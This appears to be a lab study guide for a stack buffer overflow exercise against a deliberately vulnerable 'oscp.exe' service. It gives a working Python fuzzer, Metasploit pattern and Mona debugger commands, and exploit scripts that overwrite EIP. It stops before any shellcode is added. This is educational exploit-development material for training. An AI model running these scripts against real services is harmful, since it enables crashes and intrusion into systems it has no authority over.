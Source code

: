 


---

### Mona Configuration

- The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

    - `!mona config -set workingfolder c:\mona\%p`

---

### 1. Fuzzing

- The fuzzer will send increasingly long strings comprised of `A`. 
    
- If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. 
    
- Make a note of the largest number of bytes that were sent.

    - `python_fuzzing.py` (chmod +x)

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.56.134"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

- `python3_fuzzer.py`

---

### 2. Crash Replication & Controlling EIP

- Run the following command to generate a cyclic pattern of a length `400 bytes` longer ([Ax100,Ax100]:200+400) that the string that crashed the server (change the -l value to this):

    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` 

- Copy the output and place it into the payload variable of the `exploit.py` script. 

- Create:

    - `python_exploit.py` (chmod +x)

- **Empty version:**

```python
import socket

ip = "10.10.56.134"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

- The script should crash the `oscp.exe` server again. 

- This time, in `Immunity Debugger`, in the **command input box at the bottom of the screen**, run the following **mona command**, changing the distance to the same length as the pattern you created:

    - `!mona findmsp -distance 600`
    
- Mona should display a log window with the output of the command. 

    - If not, click the `Window` menu and then `Log data` to view it (choose "CPU" to switch back to the standard view).

- In this output you should see a line which states:

    - `EIP contains normal pattern : ... (offset XXXX)` 
    
1. Update your `exploit.py` script and set the `offset` variable to the value showed by `mona` `EIP offset` **(was previously set to 0)**. 

2. Set the `payload` variable to an **empty string again**. 

3. Set the `retn` variable to `BBBB`.

4. Restart `oscp.exe` in `Immunity Debugger` and run the modified `python_exploit.py` script again. 

    - The `EIP` register should now be overwritten with the 4 B's **(BBBB)** `42424242`. 

    - `python_exploit.py` (chmod +x)

- **Final Script:**

```python
import socket

ip = "10.10.56.134"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

---  

### 3. Finding Bad Characters

- Generate a `bytearray` using `mona`, and **exclude the null byte `\x00` by default.** 

- Note the location of the `bytearray.bin` file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be `C:\mona\oscp\bytearray.bin`).

    - `!mona bytearray -b "\x00"`

- Now generate a **string of bad chars** that is **identical to the bytearray**. 

    - The following python script can be used to **generate a string of bad chars from \x01 to \xff**:

```python
# Byte Array (badchars) creator

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

---

### References

- https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
